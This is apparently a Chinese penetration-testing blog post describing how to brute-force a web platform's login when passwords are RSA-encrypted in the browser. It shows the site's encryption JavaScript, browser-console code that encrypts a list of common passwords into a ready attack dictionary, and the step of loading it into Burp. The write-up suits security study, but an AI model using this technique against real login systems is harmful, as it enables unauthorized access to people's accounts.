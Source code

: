 ```yaml
---
layout: post
title:  "平台登陆密码请求加密爆破"
date:   2020-05-27 17：49
categories: [pentest]
tags: web渗透
---
```


<!-- more -->

## 发现加密请求js脚本

对浏览器前端进行审计，发现了加密的js

```javascript
e.encryptedString = function (t, n) {
var i = [
],
a = n.length,
r = 0;
while (r < a) i[r] = n.charCodeAt(r),
r++;
while (i.length % t.chunkSize != 0) i[r++] = 0;
var c,
o,
s,
u = i.length,
l = '';
for (r = 0; r < u; r += t.chunkSize) {
for (s = new h, c = 0, o = r; o < r + t.chunkSize; ++c) s.digits[c] = i[o++],
s.digits[c] += i[o++] << 8;
var d = t.barrett.powMod(s, t.e),
f = 16 == t.radix ? e.biToHex(d)  : e.biToString(d, t.radix);
l += f + ' '
}
return l.substring(0, l.length - 1)
}
```

打下断点查看变量，发现了明文和密文变量名

![1571819723306](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819723306.png?raw=true)

找到js内发送请求处

```javascript
c['a'].get(''.concat(u, '/keyPair'));
case 2:
return r = n.sent,
o = r.exponent,
s = r.modulus,
d = l.getKeyPair(o, '', s),
h = l.encryptedString(d, e),
n.prev = 7,
n.next = 10,
c['a'].post(''.concat(u, '/login'), {
account: t,
password: h
});
```

打下断点查看变量

![1571819882865](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819882865.png)

![1571819920248](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819920248.png)

发现在js里面就是在这里生成密文并发送到服务器端

![1571820028796](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820028796.png)

## 调用js生成加密密码字典

在控制台内申明一个明文字典数组

```javascript
var  A = ['123456','password','123456789','12345678','12345','111111','1234567','sunshine','qwerty','iloveyou','princess','admin','welcome','666666','abc123','football','123123','monkey','654321','!@#$%^&*','charlie','aa123456','donald','password1','qwerty123','zxcvbnm','121212','bailey','freedom','shadow','passw0rd','baseball','buster','daniel','hannah','thomas','summer','george','harley','222222','jessica','ginger','letmein','abcdef','solo','jordan','55555','tigger','joshua','pepper','sophie','1234','robert','matthew','12341234','andrew','lakers','andrea','1qaz2wsx','starwars','ferrari','cheese','computer','corvette','mercedes','blahblah','maverick','hello','nicole','hunter','1989','amanda','1990','jennifer','banana','chelsea','ranger','1991','trustno1','merlin','cookie','ashley','bandit','killer','aaaaaa','1q2w3e','zaq1zaq1','test','hockey','dallas','whatever','admin123','pussy','liverpool','querty','william','soccer','london','1992','biteme']
```

声明一个空数组作为密文字典

```javascript
var dist = new Array()
```

调用加密方法将明文字典加密为密文字典

```js
for(i=0,len=A.length;i<len;i++){
  dist[i]=l.encryptedString(d, A[i])
}console.log(dist)
```

然后在控制台内就获得了加密后的字典文件

![1571820473809](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820473809.png)

直接使用加密后的字典文件放入burp里面进行爆破就可以了

---

这套操作也适用于请求加密的情况，可以直接替换掉加密请求达到请求篡改的目的



